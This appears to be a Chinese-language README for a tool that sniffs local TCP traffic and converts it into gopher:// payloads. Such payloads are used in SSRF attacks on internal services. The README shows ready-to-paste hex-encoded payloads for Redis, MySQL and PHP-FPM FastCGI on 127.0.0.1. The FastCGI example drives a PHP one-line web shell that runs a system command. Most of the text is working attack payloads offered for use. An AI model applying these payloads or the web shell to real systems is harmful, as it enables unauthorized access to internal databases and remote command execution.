 ### 原理
gopher协议是个tcp/ip协议，通过gopher协议可以发送tcp stream，payload使用%+16进制编码，其实原理比较简单，平时自己用tcpdump或者wireshark把stream一段段复制出来就行，但是这样在使用的时候发现很容易出错，出现错误很难排查，而且对着一大段16进制特别头晕，于是就有了此工具，直接打印出可以复制粘贴的payload，此工具通过网卡流量解析出tcp stream，转换为gopher的payload

### 使用
测试redis e.g.
首先我们使用命令./sniffer -p6379 监听网卡，然后需要本地搭建redis服务，使用客户端去连接，并执行info命令，然后断开，打印如下payload
```
%2a%31%0d%0a%24%37%0d%0a%43%4f%4d%4d%41%4e%44%0d%0a%2a%31%0d%0a%24%34%0d%0a%69%6e%66%6f%0d%0a
```
然后加上gopher协议格式gopher:/ip:port/_ + payload就是最终payload
```
curl 'gopher://127.0.0.1:6379/_%2a%31%0d%0a%24%37%0d%0a%43%4f%4d%4d%41%4e%44%0d%0a%2a%31%0d%0a%24%34%0d%0a%69%6e%66%6f%0d%0a'
```

测试mysql e.g.
首先我们使用命令./sniffer -p3306 监听网卡，然后需要本地搭建msyql服务，执行如下命令测试
```
mysql -h 127.0.0.1 -u root -e "use information_schema;show tables;"
```
得到payload
```
%bb%00%00%01%84%a2%9f%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%07%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%7e%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%0a%6c%69%62%6d%61%72%69%61%64%62%04%5f%70%69%64%05%33%31%31%34%33%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%05%33%2e%30%2e%37%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%0c%5f%73%65%72%76%65%72%5f%68%6f%73%74%09%31%32%37%2e%30%2e%30%2e%31%12%00%00%00%03%53%45%4c%45%43%54%20%44%41%54%41%42%41%53%45%28%29%13%00%00%00%02%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%0c%00%00%00%03%73%68%6f%77%20%74%61%62%6c%65%73%01%00%00%00%01
```
然后加上gopher协议格式gopher:/ip:port/_ + payload就是最终payload

```
gopher:/127.0.0.1:3306/_%bb%00%00%01%84%a2%9f%00%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%07%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%7e%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%0a%6c%69%62%6d%61%72%69%61%64%62%04%5f%70%69%64%05%33%31%30%34%32%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%05%33%2e%30%2e%37%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%0c%5f%73%65%72%76%65%72%5f%68%6f%73%74%09%31%32%37%2e%30%2e%30%2e%31%12%00%00%00%03%53%45%4c%45%43%54%20%44%41%54%41%42%41%53%45%28%29%13%00%00%00%02%69%6e%66%6f%72%6d%61%74%69%6f%6e%5f%73%63%68%65%6d%61%0c%00%00%00%03%73%68%6f%77%20%74%61%62%6c%65%73%01%00%00%00%01
```

测试fastcgi e.g.
首先我们使用./sniffer -p9000监听网卡，启动php-fpm服务监听到9000端口, 然后使用https://github.com/wuyunfeng/Python-FastCGI-Client 客户端模拟fastcgi请求，执行如下命令测试

```
python fcgi.py http://127.0.0.1:9000 /home/firebroo/test/1.php e=id
```

我的/home/firebroo/test/1.php内容为<?php system($_POST['e']);?>

得到payload
```
%01%01%35%67%00%08%00%00%00%01%00%00%00%00%00%00%01%04%35%67%01%86%00%00%0e%01%43%4f%4e%54%45%4e%54%5f%4c%45%4e%47%54%48%34%0c%21%43%4f%4e%54%45%4e%54%5f%54%59%50%45%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%0b%04%52%45%4d%4f%54%45%5f%50%4f%52%54%39%39%38%35%0b%09%53%45%52%56%45%52%5f%4e%41%4d%45%6c%6f%63%61%6c%68%6f%73%74%11%0b%47%41%54%45%57%41%59%5f%49%4e%54%45%52%46%41%43%45%46%61%73%74%43%47%49%2f%31%2e%30%0f%0e%53%45%52%56%45%52%5f%53%4f%46%54%57%41%52%45%70%68%70%2f%66%63%67%69%63%6c%69%65%6e%74%0b%09%52%45%4d%4f%54%45%5f%41%44%44%52%31%32%37%2e%30%2e%30%2e%31%0f%19%53%43%52%49%50%54%5f%46%49%4c%45%4e%41%4d%45%2f%68%6f%6d%65%2f%66%69%72%65%62%72%6f%6f%2f%74%65%73%74%2f%31%2e%70%68%70%0b%00%53%43%52%49%50%54%5f%4e%41%4d%45%0e%04%52%45%51%55%45%53%54%5f%4d%45%54%48%4f%44%50%4f%53%54%0b%02%53%45%52%56%45%52%5f%50%4f%52%54%38%30%0f%08%53%45%52%56%45%52%5f%50%52%4f%54%4f%43%4f%4c%48%54%54%50%2f%31%2e%31%0c%00%51%55%45%52%59%5f%53%54%52%49%4e%47%0d%19%44%4f%43%55%4d%45%4e%54%5f%52%4f%4f%54%2f%68%6f%6d%65%2f%66%69%72%65%62%72%6f%6f%2f%74%65%73%74%2f%31%2e%70%68%70%0b%09%53%45%52%56%45%52%5f%41%44%44%52%31%32%37%2e%30%2e%30%2e%31%0b%00%52%45%51%55%45%53%54%5f%55%52%49%01%04%35%67%00%00%00%00%01%05%35%67%00%04%00%00%65%3d%69%64%01%05%35%67%00%00%00%00
```

然后加上gopher协议格式gopher:/ip:port/_ + payload就是最终payload

```
gopher://127.0.0.1:9000/_%01%01%35%67%00%08%00%00%00%01%00%00%00%00%00%00%01%04%35%67%01%86%00%00%0e%01%43%4f%4e%54%45%4e%54%5f%4c%45%4e%47%54%48%34%0c%21%43%4f%4e%54%45%4e%54%5f%54%59%50%45%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%0b%04%52%45%4d%4f%54%45%5f%50%4f%52%54%39%39%38%35%0b%09%53%45%52%56%45%52%5f%4e%41%4d%45%6c%6f%63%61%6c%68%6f%73%74%11%0b%47%41%54%45%57%41%59%5f%49%4e%54%45%52%46%41%43%45%46%61%73%74%43%47%49%2f%31%2e%30%0f%0e%53%45%52%56%45%52%5f%53%4f%46%54%57%41%52%45%70%68%70%2f%66%63%67%69%63%6c%69%65%6e%74%0b%09%52%45%4d%4f%54%45%5f%41%44%44%52%31%32%37%2e%30%2e%30%2e%31%0f%19%53%43%52%49%50%54%5f%46%49%4c%45%4e%41%4d%45%2f%68%6f%6d%65%2f%66%69%72%65%62%72%6f%6f%2f%74%65%73%74%2f%31%2e%70%68%70%0b%00%53%43%52%49%50%54%5f%4e%41%4d%45%0e%04%52%45%51%55%45%53%54%5f%4d%45%54%48%4f%44%50%4f%53%54%0b%02%53%45%52%56%45%52%5f%50%4f%52%54%38%30%0f%08%53%45%52%56%45%52%5f%50%52%4f%54%4f%43%4f%4c%48%54%54%50%2f%31%2e%31%0c%00%51%55%45%52%59%5f%53%54%52%49%4e%47%0d%19%44%4f%43%55%4d%45%4e%54%5f%52%4f%4f%54%2f%68%6f%6d%65%2f%66%69%72%65%62%72%6f%6f%2f%74%65%73%74%2f%31%2e%70%68%70%0b%09%53%45%52%56%45%52%5f%41%44%44%52%31%32%37%2e%30%2e%30%2e%31%0b%00%52%45%51%55%45%53%54%5f%55%52%49%01%04%35%67%00%00%00%00%01%05%35%67%00%04%00%00%65%3d%69%64%01%05%35%67%00%00%00%00
```

其它协议都可以支持，只要是一次性请求就行～～
